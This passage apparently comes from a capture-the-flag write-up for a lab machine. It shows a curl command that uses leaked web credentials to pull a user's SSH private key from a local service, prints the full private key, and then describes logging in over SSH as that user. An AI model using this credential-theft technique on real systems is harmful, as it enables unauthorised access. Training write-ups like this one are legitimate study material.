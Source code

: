 ```
</body></html>
```
and i discovered a id_rsa. So i caught the key:

``` 
$ curl --user webapi_user:iamthebest http://127.0.0.1:3001/~r.michaels/id_rsa
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2610  100  2610    0     0  1274k      0 --:--:-- --:--:-- --:--:-- 1274k
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```
## User Flag

Than i connected to macchine with ssh as r.micharls and got user Flag:
